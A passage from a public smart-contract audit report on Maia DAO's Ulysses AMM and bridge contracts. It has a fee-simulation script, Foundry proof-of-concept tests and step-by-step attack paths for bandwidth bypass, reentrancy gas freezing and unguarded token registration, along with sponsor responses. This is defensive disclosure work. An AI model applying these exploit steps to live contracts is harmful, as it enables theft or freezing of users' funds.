            # offset = lambda1 * 2
            lambda1 *= 2

            # Calculate the fee for the second interval
            fee2 = calcFee(lambda2, upperBound2, upperBound2, bandwidth, lambda1, roundDown)

            # Add the two fees together
            fee += fee2
            
        return fee


    def calcFee(feeTier, maxWidth, upperBound, bandwidth, offset, roundDown):
        # Calculate the height of the trapezium
        height = upperBound - bandwidth

        # Calculate the width of the trapezium, rounded up
        width = ((height * feeTier + maxWidth - 1) // maxWidth) + offset

        # Calculate the fee for this tier
        if roundDown:
            fee = (width * height) // DIVISIONER
        else:
            fee = (width * height + DIVISIONER - 1) // DIVISIONER
        return fee

    def mint(amount):
        print("minting "+str(amount)+" underlying")
        global LPBalance, UnderBalance, totalWeights, totalSupply, poolBalance
        
        _totalWeights = totalWeights
        _totalSupply = totalSupply
        _newTotalSupply = _totalSupply + amount

        bandwidthUpdateAmounts, length = getBandwidthUpdateAmounts(True, True, amount, _totalWeights, _newTotalSupply)

        output = 0
        negativeFee = 0
        i = 0
        while i < length:
            updateAmount = bandwidthUpdateAmounts[i]
            if updateAmount > 0:
                output += updateAmount

            _positiveFee, _negativeFee = updateBandwidth(False, True, i, updateAmount, _totalWeights, _totalSupply, _newTotalSupply)

            if _positiveFee > 0:
                negativeFee += _positiveFee
            else:
                output += _negativeFee
            i += 1

        if negativeFee > output:
            #raise Exception("Underflow()")
            pass

        output -= negativeFee
        
        LPBalance += output
        
        if output > UnderBalance:
            raise Exception("Underflow()")
        UnderBalance -= output
        
        totalSupply += amount
        poolBalance += output
        print("receiving "+str(output)+" lp")
        print()
        
    def deposit(amount):
        print("depositing "+str(amount)+" underlying")
        global LPBalance, UnderBalance, totalWeights, totalSupply, poolBalance
        
        _totalWeights = totalWeights
        _totalSupply = totalSupply
        _newTotalSupply = _totalSupply + amount

        bandwidthUpdateAmounts, length = getBandwidthUpdateAmounts(False, True, amount, _totalWeights, _newTotalSupply)

        output = 0
        negativeFee = 0
        i = 0
        while i < length:
            updateAmount = bandwidthUpdateAmounts[i]
            if updateAmount > 0:
                output += updateAmount

            _positiveFee, _negativeFee = updateBandwidth(True, True, i, updateAmount, _totalWeights, _totalSupply, _newTotalSupply)

            if _positiveFee > 0:
                output += _positiveFee
            else:
                negativeFee += _negativeFee

            i += 1

        if negativeFee > output:
            raise Exception("Underflow()")

        output -= negativeFee
        
        LPBalance += output
        
        if amount > UnderBalance:
            raise Exception("Underflow()")
        UnderBalance -= amount
        
        totalSupply += output
        poolBalance += amount
        print("receiving "+str(output)+" lp")
        print()
        
    def redeem(amount):
        print("redeeming "+str(amount)+" lp")
        global LPBalance, UnderBalance, totalWeights, totalSupply, poolBalance
        
        totalSupply -= amount
        
        if amount > LPBalance:
            raise Exception("Underflow()")        
        LPBalance -= amount
        
        _totalWeights = totalWeights
        _newTotalSupply = totalSupply
        _totalSupply = _newTotalSupply + amount

        bandwidthUpdateAmounts, length = getBandwidthUpdateAmounts(False, False, amount, _totalWeights, _totalSupply)

        output = 0
        negativeFee = 0
        i = 0
        while i < length:
            updateAmount = bandwidthUpdateAmounts[i]
            if updateAmount > 0:
                output += updateAmount

            _positiveFee, _negativeFee = updateBandwidth(False, False, i, updateAmount, _totalWeights, _totalSupply, _newTotalSupply)
            #if _positiveFee > 0:
                #raise Exception("nooooo()")
            negativeFee += _negativeFee

            i += 1

        if negativeFee > output:
            raise Exception("Underflow()")
        output -= negativeFee
        
        UnderBalance += output
        poolBalance -= output
        print("receiving "+str(output)+" underlying")
        print()
        
    def getIdealPoolBalance():
        global length, bandwithArray, weightArray, totalWeights, totalSupply
        assets = 0

        for i in range(length):
            targetBandwidth = totalSupply * weightArray[i] // totalWeights
            assets += calculateRebalancingFee(bandwithArray[i], targetBandwidth, False)
            #print(calculateRebalancingFee(bandwithArray[i], targetBandwidth, False))
            assets += bandwithArray[i]
            #print(bandwithArray[i])
        
        return assets

    def getFeeStatus():
        global length, bandwithArray, weightArray, totalWeights, totalSupply
        assets = 0

        for i in range(length):
            targetBandwidth = totalSupply * weightArray[i] // totalWeights
            assets += calculateRebalancingFee(bandwithArray[i], targetBandwidth, False)
            print(i)
            print(calculateRebalancingFee(bandwithArray[i], targetBandwidth, False))
        
        return assets

    '''
    cnt = 0
    cnttt = 0        
    recordinso = []
    recordluck = []


    for i in range(100000):
        DIVISIONER = int(1e18)
        length = 3
        bandwithArray = [randint(0, int(1e27)) for _ in range(length)]
        weightArray = [1] + [randint(1, 100) for _ in range(length - 1)]
        #weightArray = [1, 1000]
        totalWeights = sum(weightArray)
        totalSupply = int(1e27)
        poolBalance = getIdealPoolBalance()
        
        UnderBalance = 0
        beforeFee = getFeeStatus()
        #amount = randint(0, int(1e25))
        amount = 10000000000
        LPBalance = amount
        redeem(amount)
        afterFee = getFeeStatus()
        if poolBalance < getIdealPoolBalance():
            print(str(poolBalance)+" insolvency! "+str(getIdealPoolBalance()))
            cnt += 1
            recordinso.append(getIdealPoolBalance() - poolBalance)
            raise Exception("Strange()")
            
        if UnderBalance + afterFee > amount + beforeFee :
            print("lucky!")
            recordluck.append(UnderBalance + afterFee - amount - beforeFee)
            cnttt += 1
        print(i)
    print(cnt)
    print(cnttt)


    '''
    cnt = 0
    cnttt = 0
    recordinso = []
    recordluck = []
    recordcomp = []

    for i in range(1):

        DIVISIONER = int(1e18)
        length = 3
        #bandwithArray = [randint(0, int(1e27)) for _ in range(length)]
        bandwithArray = [99452334745147595191585509, 4253569467850027815346666, 216725069177793291903286517]
        #weightArray = [1] + [randint(1, 100) for _ in range(length - 1)]
        weightArray = [1, 59, 47]
        totalWeights = sum(weightArray)
        totalSupply = int(1e27)
        poolBalance = getIdealPoolBalance()
        
        LPBalance = 0
        UnderBalance = int(1e26)
        beforeFee = getFeeStatus()
        #amount = randint(0, int(1e10))
        amount = 10000000

        deposit(amount)
        afterFee = getFeeStatus()

        if poolBalance < getIdealPoolBalance():
            print(str(poolBalance)+" insolvency! "+str(getIdealPoolBalance()))
            cnt += 1
            recordinso.append(getIdealPoolBalance() - poolBalance)
            recordcomp.append(LPBalance + afterFee - amount - beforeFee)
            #raise Exception("good")
            
        if LPBalance + afterFee > amount + beforeFee:
            print("lucky!")
            cnttt += 1
            recordluck.append(LPBalance + afterFee - amount - beforeFee)
            #break
        print(i)
    print(cnt)
    print(cnttt)

</details>

### Recommended Mitigation Steps

Deprecate the "deposit" method. It is hard to find a correct way to handle this.

### Assessed type

Context

**[0xLightt (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/435#issuecomment-1633253628):**
 > I was able to recreate this issue in solidity. But finding the actual issue is essential to make sure this is actually being addressed and there isn't any more issue due to this. Blindly removing the `deposit` function and hoping this fully fixes this is not a sensible approach.
> 
> Added these mock functions to `UlyssesPool` to help recreate this issue:
> ```solidity
>     function setTotalSupply(uint256 _totalSupply) external {
>         totalSupply = _totalSupply;
>     }
> 
>     function addBandwidthTest(uint248 bandwidth, uint8 weight) external {
>         totalWeights += weight;
>         bandwidthStateList.push(
>             BandwidthState({bandwidth: bandwidth, destination: UlyssesPool(address(0)), weight: weight})
>         );
>     }
> 
>     function getRebalancingFee(uint256 index) external view returns (uint256) {
>         return _calculateRebalancingFee(
>             bandwidthStateList[index].bandwidth, totalSupply.mulDiv(bandwidthStateList[index].weight, totalWeights), false
>         );
>     }
> ```
> Then added this test to `InvariantUlyssesPoolBounded` to recreate your example:
> ```solidity
>     function test_435() public {
>         setUpHandler();
> 
>         vm.startPrank(handler);
> 
>         UlyssesPool[] memory pools = createPools(1);
>         UlyssesPool pool1 = UlyssesPool(pools[0]);
> 
>         MockERC20(pool1.asset()).mint(address(handler), type(uint256).max / 2);
>         MockERC20(pool1.asset()).mint(address(pool1), 100000000000 ether);
>         MockERC20(pool1.asset()).approve(address(pool1), type(uint256).max);
> 
>         pool1.setTotalSupply(1000000000000000013287555072);
> 
>         pool1.addBandwidthTest(99452334745147595191585509, 1);
>         pool1.addBandwidthTest(4253569467850027815346666, 59);
>         pool1.addBandwidthTest(216725069177793291903286517, 47);
> 
>         console2.log(pool1.getRebalancingFee(1), pool1.getRebalancingFee(2), pool1.getRebalancingFee(3));
>         uint256 feeBefore = pool1.getRebalancingFee(1) + pool1.getRebalancingFee(2) + pool1.getRebalancingFee(3);
> 
>         pool1.deposit(10000000, address(handler));
> 
>         console2.log(pool1.getRebalancingFee(1), pool1.getRebalancingFee(2), pool1.getRebalancingFee(3));
>         uint256 feeAfter = pool1.getRebalancingFee(1) + pool1.getRebalancingFee(2) + pool1.getRebalancingFee(3);
> 
>         // Should revert but doesn't
>         console2.log(feeAfter - feeBefore);
>     }
> ```

**[xuwinnie (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/435#issuecomment-1633420172):**
 > > Hey, was able to recreate this issue in solidity. But finding the actual issue is essential to make sure this is actually being addressed and there isn't any more issue due to this. Blindly removing the `deposit` function and hoping this fully fixes this is not a sensible approach.
> 
> When `redeeming` and `minting`, the calculation is share `->` amount. But when depositing, the calculation is amount `->` share, so I believe removing `deposit` is the best way. In the equation, `amount = share + rebalancingfee(before) - rebalancingfee(after)`, if we know share, it's straight forward to get the amount, but it's hard to get shares from the amount. The current approach in `deposit` is just an approximation and that's why it can be exploited.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/435#issuecomment-1640902960):**
 > Thanks for giving more context, I understand why you are suggesting to remove the `deposit` function as a fix, especially due to the time constraints you mentioned. I just want to make sure this is not being caused by any underlying issue that can still affect other functions. 
> 
> After looking into it more, it is exactly what you suggested; the issue comes from siphoning the `_newTotalSupply` when doing calculations because we are not accounting for shares minted due to rebalancing fees. A possible solution could be to overestimate the new total supply, but it would lead to users overpaying in certain situations. Because of this, the `deposit` function wouldn't make sense to be used over `mint`, so it is safer to just remove it.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/435#issuecomment-1655653521):**
 > We recognize the audit's findings on Ulysses AMM. These will not be rectified due to the upcoming migration of this section to Balancer Stable Pools.

***

## [[H-20] A user can bypass bandwidth limit by repeatedly "balancing" the pool](https://github.com/code-423n4/2023-05-maia-findings/issues/392)
*Submitted by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/392), also found by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/394)*

The goal with bandwidths is to have a maximum that can be withdrawn (swapped) from a pool. In case a specific chain (or token from a chain) is exploited, then it only can partially affect these pools. However, the maximum limit can be bypassed by repeatedly "balancing" the pool to increase bandwidth for the exploited chain.

### Introducing "Balancing": A Technique for Redistributing Bandwidth

During `ulyssesAddLP` or `ulyssesAddLP`, liquidity is first distributed or taken proportionally to `diff` (if any exists) and then distributed or taken proportionally to `weight`. Suppose integer `t` is far smaller than `diff` (since the action itself can also change `diff`), after repeatedly adding `t LP`, removing `t LP`, adding `t LP`, removing `t LP`, etc., the pool will finally reach another stable state where the ratio of `diff` to `weight` is a constant among destinations. This implies that the `currentBandwidth` will be proportional to `weight`.

### Proof of Concept

Suppose Avalanche is down. Unluckily, Alice holds 100 ava-hETH. They want to swap ava-hETH for bnb-hETH.

Let's take a look at bnb-hETH pool. Suppose weights are mainnet:4, Avalanche:3 and Linea:2. Total supply is 90. Target bandwidths are mainnet:40, Avalanche:30 and Linea:20. Current bandwidths are mainnet:30, Avalanche:2 (few left) and Linea:22.

Ideally Alice should only be able to swap for 2 bnb-hETH. However, they swap for 0.1 bnb-hETH first. Then they use the 0.1 bnb-hETH to "balance" the pool (as mentioned above). Current bandwidths will become mainnet:24, Avalanche:18 and Linea:12. Then, Alice swaps for 14 bnb-hETH and "balance" the pool again. By repeating the process, they can acquire nearly all of the available liquidity in pool and `LP` loss will be unbounded.

### Recommended Mitigation Steps

1.  During `ulyssesAddLP` or `ulyssesAddLP`, always distribute or take liquidity proportionally to weight.
2.  When swapping A for B, reduce the bandwidth of A in the B pool (as is currently done) while adding bandwidth of B in the A pool (instead of distributing them among all bandwidths).

### Assessed type

Context

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/392#issuecomment-1631674929)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/392#issuecomment-1655653646):**
 > We recognize the audit's findings on Ulysses AMM. These will not be rectified due to the upcoming migration of this section to Balancer Stable Pools.

***

## [[H-21] Missing the unwrapping of native token in `RootBridgeAgent.sweep()` causes fees to be stuck](https://github.com/code-423n4/2023-05-maia-findings/issues/385)
*Submitted by [peakbolt](https://github.com/code-423n4/2023-05-maia-findings/issues/385), also found by [Voyvoda](https://github.com/code-423n4/2023-05-maia-findings/issues/648), [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/363), and [kodyvim](https://github.com/code-423n4/2023-05-maia-findings/issues/274)*

`RootBridgeAgent.sweep()` will fail as it tries to transfer `accumulatedFees` using `SafeTransferLib.safeTransferETH()` but fails to unwrap the fees by withdrawing from `wrappedNativeToken`.

### Impact

The `accumulatedFees` will be stuck in `RootBridgeAgent` without any functions to withdraw them.

### Proof of Concept

Add the below test case to `RootTest.t.sol`:

    function testPeakboltSweep() public {
        //Set up
        testAddLocalTokenArbitrum();

        //Prepare data
        bytes memory packedData;

        {
            Multicall2.Call[] memory calls = new Multicall2.Call[](1);

            //Mock action
            calls[0] = Multicall2.Call({target: 0x0000000000000000000000000000000000000000, callData: ""});

            //Output Params
            OutputParams memory outputParams = OutputParams(address(this), newAvaxAssetGlobalAddress, 150 ether, 0);

            //RLP Encode Calldata Call with no gas to bridge out and we top up.
            bytes memory data = abi.encode(calls, outputParams, ftmChainId);

            //Pack FuncId
            packedData = abi.encodePacked(bytes1(0x02), data);
        }

        address _user = address(this);

        //Get some gas.
        hevm.deal(_user, 1 ether);
        hevm.deal(address(ftmPort), 1 ether);

        //assure there is enough balance for mock action
        hevm.prank(address(rootPort));
        ERC20hTokenRoot(newAvaxAssetGlobalAddress).mint(address(rootPort), 50 ether, rootChainId);
        hevm.prank(address(avaxPort));
        ERC20hTokenBranch(avaxMockAssethToken).mint(_user, 50 ether);

        //Mint Underlying Token.
        avaxMockAssetToken.mint(_user, 100 ether);

        //Prepare deposit info
        DepositInput memory depositInput = DepositInput({
            hToken: address(avaxMockAssethToken),
            token: address(avaxMockAssetToken),
            amount: 150 ether,
            deposit: 100 ether,
            toChain: ftmChainId
        });

        console2.log("accumulatedFees (BEFORE) = %d", multicallBridgeAgent.accumulatedFees());       

        //Call Deposit function
        avaxMockAssetToken.approve(address(avaxPort), 100 ether);
        ERC20hTokenRoot(avaxMockAssethToken).approve(address(avaxPort), 50 ether);

        uint128 remoteExecutionGas = 4e9;
        uint128 depositedGas = 1e11; 
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: depositedGas }(packedData, depositInput, remoteExecutionGas);

        console2.log("accumulatedFees (AFTER)  = %d", multicallBridgeAgent.accumulatedFees());        
        console2.log("WETH Balance = %d ", multicallBridgeAgent.wrappedNativeToken().balanceOf(address(multicallBridgeAgent)));
        console2.log("ETH Balance = %d ", address(multicallBridgeAgent).balance);

        // sweep() will fail as it does not unwrap the WETH before the ETH transfer
        multicallBridgeAgent.sweep();

    }

### Recommended Mitigation Steps

Add `wrappedNativeToken.withdraw(_accumulatedFees);` to `sweep()` before transferring.

**[0xBugsy (Maia) confirmed, but disagreed with severity](https://github.com/code-423n4/2023-05-maia-findings/issues/385#issuecomment-1632722060)**

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/385#issuecomment-1649332571):**
 > Funds are permanently stuck; therefore, high severity is appropriate.

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/385#issuecomment-1655678796):**
 > We recognize the audit's findings on Anycall. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[H-22] Multiple issues with `retrySettlement()` and `retrieveDeposit()` will cause loss of users' bridging deposits](https://github.com/code-423n4/2023-05-maia-findings/issues/356)
*Submitted by [peakbolt](https://github.com/code-423n4/2023-05-maia-findings/issues/356), also found by Noro ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/535), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/533)), zzebra83 ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/48), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/46)), [Evo](https://github.com/code-423n4/2023-05-maia-findings/issues/769), and [Emmanuel](https://github.com/code-423n4/2023-05-maia-findings/issues/674)*

Both `retrySettlement()` and `retrieveDeposit()` are incorrectly implemented with the following 3 issues:

1. Both `retrySettlement()` and `retrieveDeposit()` are lacking a call to `wrappedNativeToken.deposit()` to wrap the native token paid by users for gas. This causes a subsequent call to `_depositGas()` to fail at [BranchBridgeAgent.sol#L929-L931](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L929-L931). This is also inconsistent with the other functions like `retryDeposit()`, which wraps the received native token for gas (see [BranchBridgeAgent.sol#L441-L447](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L441-L447)).

2. `retrySettlement()` has a redundant increment for `depositNonce` in [BranchBridgeAgent.sol#L426](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L426), which will cause a different `depositNonce` value to be used for the subsequent call to `_createGasDeposit` in [BranchBridgeAgent.sol#L836](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L836).

3. Both `retrySettlement()` and `retrieveDeposit()` are missing a fallback implementation, as `BranchBridgeAgent.anyFallback()` is not handling flag `0x07` (`retrySettlement`) and flag `0x08` (`retrieveDeposit`), as evident in [BranchBridgeAgent.sol#L1227-L1307](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1227-L1307).

### Impact

Due to these issues, both `retrySettlement()` and `retrieveDeposit()` will cease to function properly. That will prevent users from re-trying the failed settlement and retrieving deposits, resulting in a loss of users' deposits for bridging. In addition, the gas paid by a user that is not wrapped will also be stuck in `BranchBridgeAgent`, as there is no function to withdraw the native token.

### Proof of Concept

Add the following test case to `RootTest.t.sol`. This shows the issues with the lack of native token wrapping:

```Solidity
     function testPeakboltRetrySettlement() public {
        //Set up
        testAddLocalTokenArbitrum();

        //Prepare data
        bytes memory packedData;

        {
            Multicall2.Call[] memory calls = new Multicall2.Call[](1);

            //Mock action
            calls[0] = Multicall2.Call({target: 0x0000000000000000000000000000000000000000, callData: ""});

            //Output Params
            OutputParams memory outputParams = OutputParams(address(this), newAvaxAssetGlobalAddress, 150 ether, 0);

            //RLP Encode Calldata Call with no gas to bridge out and we top up.
            bytes memory data = abi.encode(calls, outputParams, ftmChainId);

            //Pack FuncId
            packedData = abi.encodePacked(bytes1(0x02), data);
        }

        address _user = address(this);

        //Get some gas.
        hevm.deal(_user, 1 ether);
        hevm.deal(address(ftmPort), 1 ether);

        //assure there is enough balance for mock action
        hevm.prank(address(rootPort));
        ERC20hTokenRoot(newAvaxAssetGlobalAddress).mint(address(rootPort), 50 ether, rootChainId);
        hevm.prank(address(avaxPort));
        ERC20hTokenBranch(avaxMockAssethToken).mint(_user, 50 ether);

        //Mint Underlying Token.
        avaxMockAssetToken.mint(_user, 100 ether);

        //Prepare deposit info
        DepositInput memory depositInput = DepositInput({
            hToken: address(avaxMockAssethToken),
            token: address(avaxMockAssetToken),
            amount: 150 ether,
            deposit: 100 ether,
            toChain: ftmChainId
        });


        console2.log("-------------  Creating a failed settlement ----------------");
        
        //Call Deposit function
        avaxMockAssetToken.approve(address(avaxPort), 100 ether);
        ERC20hTokenRoot(avaxMockAssethToken).approve(address(avaxPort), 50 ether);

        //Set MockAnycall AnyFallback mode ON
        MockAnycall(local`AnyCall`Address).toggleFallback(1);

        //this is for branchBridgeAgent anyExecute
        uint128 remoteExecutionGas = 4e9;
        
        //msg.value is total gas amount for both Root and Branch agents
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: 1e11 }(packedData, depositInput, remoteExecutionGas);

        //Set MockAnycall AnyFallback mode OFF
        MockAnycall(local`AnyCall`Address).toggleFallback(0);

        //Perform anyFallback transaction back to root bridge agent
        MockAnycall(local`AnyCall`Address).testFallback();

        //check settlement status
        uint32 settlementNonce = multicallBridgeAgent.settlementNonce() - 1;
        Settlement memory settlement = multicallBridgeAgent.getSettlementEntry(settlementNonce);
        console2.log("Status after fallback:", settlement.status == SettlementStatus.Failed ? "Failed" : "Success");
        require(settlement.status == SettlementStatus.Failed, "Settlement status should be failed.");


        console2.log("------------- retrying Settlement ----------------");
        
        //Get some gas.
        hevm.deal(_user, 1 ether);

        //Retry Settlement        
        uint256 depositedGas = 7.9e9;
        uint128 gasToBridgeOut = 1.6e9;

        // This is expected to fail the gas paid by user is not wrapped and transferred 
        avaxMulticallBridgeAgent.retrySettlement{value: depositedGas}(settlementNonce, gasToBridgeOut);

        settlement = multicallBridgeAgent.getSettlementEntry(settlementNonce);

        require(settlement.status == SettlementStatus.Success, "Settlement status should be success.");

        address userAccount = address(RootPort(rootPort).getUserAccount(_user));
    


    }
```

### Recommended Mitigation Steps

1. Add `wrappedNativeToken.deposit{value: msg.value}();` to both `retrySettlement()` and `retrieveDeposit()`.
2. Remove the increment from `depositNonce` in [BranchBridgeAgent.sol#L426](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L426).
3. Add fallback implementation for both flag `0x07` (`retrySettlement`) and flag `0x08` (`retrieveDeposit`).

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/356#issuecomment-1632668405):**
 > Retrieve and Retry are not intended to be featured in a fallback. You should always be able to retry again and retrieve if you just want to clear your assets for redemption; although, the gas and increment will be addressed according to your suggestion.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/356#issuecomment-1709173808):**
> Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/356).

***

## [[H-23] An attacker can redeposit gas after `forceRevert()` to freeze all deposited gas budget of `Root Bridge Agent`](https://github.com/code-423n4/2023-05-maia-findings/issues/337)
*Submitted by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/337)*

The call `forceRevert()` withdraws all of the deposited gas budget of `Root Bridge Agent` to ensure that the  failed ``AnyCall`` execution will not be charged. However, if `forceRevert()` took place during a call made by `virtual account`, the gas can be replenished later manually. As a result, the ``AnyCall`` execution will succeed, but all withdrawn gas will be frozen.

### Proof of Concept

    function anyExecute(bytes calldata data)
        external
        virtual
        requiresExecutor
        returns (bool success, bytes memory result)
    {
        uint256 _initialGas = gasleft();
        uint24 fromChainId;
        UserFeeInfo memory _userFeeInfo;

        if (local`AnyCall`ExecutorAddress == msg.sender) {
            initialGas = _initialGas;
            (, uint256 _fromChainId) = _getContext();
            fromChainId = _fromChainId.toUint24();

            _userFeeInfo.depositedGas = _gasSwapIn(
                uint256(uint128(bytes16(data[data.length - PARAMS_GAS_IN:data.length - PARAMS_GAS_OUT]))), fromChainId).toUint128();
            _userFeeInfo.gasToBridgeOut = uint128(bytes16(data[data.length - PARAMS_GAS_OUT:data.length]));
        } else {
            fromChainId = localChainId;
            _userFeeInfo.depositedGas = uint128(bytes16(data[data.length - 32:data.length - 16]));
            _userFeeInfo.gasToBridgeOut = _userFeeInfo.depositedGas;
        }

        if (_userFeeInfo.depositedGas < _userFeeInfo.gasToBridgeOut) {
            _forceRevert();
            return (true, "Not enough gas to bridge out");
        }

        userFeeInfo = _userFeeInfo;

        // execution part
        ............

        if (initialGas > 0) {
            _payExecutionGas(userFeeInfo.depositedGas, userFeeInfo.gasToBridgeOut, _initialGas, fromChainId);
        }
    }

To implement the attack, the attacker can call `callOutSigned` on a branch chain to bypass `lock`. On the root chain, the `virtual account` makes three external calls:

1. `retryDeposit` at `Arbitrum Branch Bridge Agent` with an already executed nonce. The call will `forceRevert()` and `initialGas` will be non-zero since it has not been modified by reentering. As a result, all of the execution gas budget will be withdrawn.

```

    function _forceRevert() internal {
        if (initialGas == 0) revert GasErrorOrRepeatedTx();

        IAnycallConfig anycallConfig = IAnycallConfig(IAnycallProxy(local`AnyCall`Address).config());
        uint256 executionBudget = anycallConfig.executionBudget(address(this));

        // Withdraw all execution gas budget from anycall for tx to revert with "no enough budget"
        if (executionBudget > 0) try anycallConfig.withdraw(executionBudget) {} catch {}
    }
```

2. `callOut` at `Arbitrum Branch Bridge Agent`. The call should succeed and `initialGas` is deleted.

```

    function _payExecutionGas(uint128 _depositedGas, uint128 _gasToBridgeOut, uint256 _initialGas, uint24 _fromChain) internal {
        delete(initialGas);
        delete(userFeeInfo);

        if (_fromChain == localChainId) return;
```

3. Directly deposit a small amount of gas at `Anycall Config`, to ensure the success of the transaction.

```

    function deposit(address _account) external payable {
        executionBudget[_account] += msg.value;
        emit Deposit(_account, msg.value);
    }
```

Then, the original call proceeds and `_payExecutionGas` will be skipped. The call will succeed with all withdrawn gas budgets permanently frozen. In current implementation, ETH can be sweeped to the DAO address, but this is another mistake, as `sweep` should transfer WETH instead.

### Recommended Mitigation Steps

Add a `msg.sender` check in `_forceRevert` to ensure the local call will be directly reverted.

### Assessed type

Reentrancy

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/337#issuecomment-1632624365)**

**[peakbolt (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/337#issuecomment-1654791912):**
 > This is an interesting attack vector.<br>
> However, the impact seems like a Medium, as the attack cost could be higher than the frozen execution gas budget, lowering the incentive for such an attack. That is because the attacker has to pay the tx cost and also deposit gas to the `AnycallConfig` for the attack to succeed. And the execution gas budget in `RootBridgeAgent` is likely negligible, as it is intended to be replenished by the user.

**[xuwinnie (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/337#issuecomment-1654855834):**
> Hey @peakbolt - Actually, it could DOS the entire cross chain message sending.<br>
>> "If the gas fee isn't enough when you call `anycall`, the tx wouldn't execute until you top up with enough gas fees. This status would be reflected in the api."- according to the `anycall V7` documentation (RIP multichain).
>
> If `RootBridgeAgent` has zero budget, tx will not execute. But no user is incentivized to top it up manually. The system heavily relies on the pre-deposited gas.
> To make it clearer, suppose when deploying, a team tops up 5 units of gas. A user's tx cost 1 unit gas, then 1 unit gas is replenished. However, if the 5 units of gas is removed, the tx won't execute at all.

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/337#issuecomment-1658097469):**
 > @xuwinnie - the system should execute tx as long as `executionBudget` is `>` 0. But you are correct - if this value reaches 0, the execution will be stopped until gas is topped up and this can be continuously depleted, which is completely undesired.

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/337#issuecomment-1658099544):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[H-24] A malicious user can set any contract as a local `hToken` for an underlying token since there is no access control for `_addLocalToken`](https://github.com/code-423n4/2023-05-maia-findings/issues/285)
*Submitted by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/285)*

A malicious user can deliberately set an irrelevant (or even poisonous) local `hToken` for an underlying token, as anyone can directly access `_addLocalToken` at the root chain without calling `addLocalToken` at the branch chain first.

### Proof of Concept

    function addLocalToken(address _underlyingAddress) external payable virtual {
        //Get Token Info
        string memory name = ERC20(_underlyingAddress).name();
        string memory symbol = ERC20(_underlyingAddress).symbol();

        //Create Token
        ERC20hToken newToken = ITokenFactory(hTokenFactoryAddress).createToken(name, symbol);

        //Encode Data
        bytes memory data = abi.encode(_underlyingAddress, newToken, name, symbol);

        //Pack FuncId
        bytes memory packedData = abi.encodePacked(bytes1(0x02), data);

        //Send Cross-Chain request (System Response/Request)
        IBridgeAgent(localBridgeAgentAddress).performCallOut{value: msg.value}(msg.sender, packedData, 0, 0);
    }

The intended method to add a new local token for an underlying is by calling the function `addLocalToken` at the branch chain. However, it appears that the last line of code, `IBridgeAgent(localBridgeAgentAddress).performCallOut{value: msg.value}(msg.sender, packedData, 0, 0);` uses `performCallOut` instead of `performSystemCallOut`. This means that users can directly `callOut` at the branch bridge agent with `_params = abi.encodePacked(bytes1(0x02), abi.encode(_underlyingAddress, anyContract, name, symbol))` to invoke `_addLocalToken` at the root chain without calling `addLocalToken` first. As a result, they may set an arbitrary contract as the local token. It's worth noting that the impact is irreversible, as there is no mechanism to modify or delete local tokens, meaning that the underlying token can never be properly bridged in the future.

The branch hToken is called by function `bridgeIn` when `redeemDeposit` or `clearToken`:

    function bridgeIn(address _recipient, address _localAddress, uint256 _amount)
        external
        virtual
        requiresBridgeAgent
    {
        ERC20hTokenBranch(_localAddress).mint(_recipient, _amount);
    }

Below are several potential exploitation methods:

1. If a regular ERC20 contract with admin minting permissions is set, the exploiter can mint an unlimited amount of local tokens for themselves. By bridging them, they can receive an arbitrary amount of global tokens at the root chain.
2. If an unrelated contract with an empty `mint` function is set, the underlying asset would be unable to be bridged in from the root chain, and users who attempt to do so could lose their assets.
3. If a malicious contract is set, gas grieving is possible.
4. This contract may serve as an intermediary for re-entrancy (I haven't found a concrete way so far, but there is a potential risk).

### Recommended Mitigation Steps

Use `performSystemCallOut` and `executeSystemRequest` to send Cross-Chain requests for adding a local token.

### Assessed type

Access Control

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/285#issuecomment-1632557883):**
 > In fact, the `performSystemCallout` should be used there and not `performCallout`, since this demands passing execution through the router first.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/285#issuecomment-1709221151):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/285).

***

